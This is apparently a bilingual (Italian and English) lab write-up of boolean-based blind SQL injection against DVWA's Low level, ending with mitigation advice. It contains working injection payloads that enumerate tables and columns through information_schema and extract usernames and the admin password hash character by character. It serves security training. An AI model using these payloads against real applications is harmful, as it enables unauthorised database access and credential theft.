 
## SQL Injection – Livello Low (Boolean-Based Blind)

## Descrizione

Nel livello "Low" di DVWA, il parametro `id` viene inserito direttamente nella query SQL senza alcuna validazione, rendendo possibile l'iniezione di codice arbitrario.  
In assenza di output diretto, l'applicazione restituisce messaggi distinti (“User ID exists” oppure “User ID is MISSING”), rendendo possibile un attacco di tipo **Blind SQL Injection basato su condizione booleana**.

## Obiettivo

- Verificare la presenza della tabella `users`
- Verificare l’esistenza delle colonne `user` e `password`
- Estrarre dati sensibili tramite condizioni logiche e controllo di lunghezza

## Ambiente di test

- DVWA livello: Low  
- VirtualBox  
- Browser: Firefox  
- Strumenti: Burp Suite, DevTools

---

## Fasi dell’attacco

### 1. Verifica della vulnerabilità

```sql
1' AND 1=1 #
```

→ **User ID exists** (condizione vera)

```sql
1' AND 1=2 #
```

→ **User ID is MISSING** (condizione falsa)

✅ Conferma che la risposta dell'applicazione dipende dall'esito della condizione logica → vulnerabilità presente.

---

### 2. Verifica dell’esistenza della tabella `users`

```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=DATABASE() AND table_name LIKE 'users%') > 0 -- -
```

→ **User ID exists**  
✔️ La tabella `users` esiste.

---

### 3. Verifica della colonna `user`

```sql
1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='user') > 0 -- -
```

→ **User ID exists**  
✔️ La colonna `user` è presente nella tabella `users`.

---

### 4. Verifica della colonna `password`

```sql
1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password') > 0 -- -
```

→ **User ID exists**  
✔️ La colonna `password` è presente nella tabella `users`.

---

### 5. Estrazione condizionale del primo carattere dell’username

```sql
1' AND SUBSTRING((SELECT user FROM users LIMIT 0,1),1,1)='a' -- -
```

→ La risposta varierà a seconda del carattere. Provando ogni lettera, si può ricostruire l’intero valore.


---

### 6. Estrazione condizionale della password dell’utente `admin`

```sql
1' AND SUBSTRING((SELECT password FROM users WHERE user='admin' LIMIT 0,1),1,1)='x' -- -
```

→ Anche qui si può iterare carattere per carattere per ricostruire l’intera password hashata.

> ⚠️ Per motivi etici, i valori ottenuti non vengono riportati.

---

## Considerazioni finali

La presenza di risposte diverse in base all'esito di una condizione logica rende questo scenario vulnerabile a Blind SQL Injection.  
Questo tipo di attacco permette, con pazienza, di ricostruire interi contenuti del database anche in assenza di output diretto.

---

## Mitigazioni consigliate

- Utilizzare **query parametrizzate** (prepared statements)
- Evitare di concatenare input dell’utente direttamente nelle query
- Validare e sanificare ogni dato in ingresso
- Ridurre i privilegi del database user utilizzato dall’applicazione
- Evitare messaggi distintivi (es. “exists” vs “missing”) per risposte condizionali
- Monitorare le richieste sospette nel traffico

---

## English Version – SQL Injection (Boolean-Based Blind)

## Description

In DVWA Low security level, the `id` parameter is directly inserted into an SQL query without any input validation.  
Even without direct output, the application replies with “User ID exists” or “User ID is MISSING” depending on the query result, allowing for **boolean-based blind SQL injection**.

## Objective

- Detect `users` table and its columns
- Extract sensitive data via logic-based inference
- Use length validation to avoid false positives

## Environment

- DVWA level: Low  
- VirtualBox  
- Firefox  
- Tools: Burp Suite, DevTools

---

## Attack steps

### 1. Vulnerability confirmation

```sql
1' AND 1=1 #
```

→ Valid: **User ID exists**

```sql
1' AND 1=2 #
```

→ Invalid: **User ID is MISSING**

✅ Application behavior confirms SQLi vulnerability.

---

### 2. Detecting the `users` table

```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=DATABASE() AND table_name LIKE 'users%') > 0 -- -
```

→ Table exists.

---

### 3. Confirming column `user`

```sql
1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='user') > 0 -- -
```

✔️ Column `user` exists.

---

### 4. Confirming column `password`

```sql
1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password') > 0 -- -
```

✔️ Column `password` exists.

---

### 5. Extracting the first character of a username

```sql
1' AND SUBSTRING((SELECT user FROM users LIMIT 0,1),1,1)='a' -- -
```


---

### 6. Extracting the password of user `admin`

```sql
1' AND SUBSTRING((SELECT password FROM users WHERE user='admin' LIMIT 0,1),1,1)='x' -- -
```

→ Repeat character by character to extract the hash.

---

## Final notes

Even with no data printed on the page, conditional responses enable full database exfiltration through blind SQL injection.

---

## Recommended mitigation

- Use **prepared statements**
- Never concatenate user input in SQL queries
- Sanitize all input thoroughly
- Restrict database user privileges
- Avoid distinct messages that reveal internal logic
- Log and monitor suspicious request patterns

---

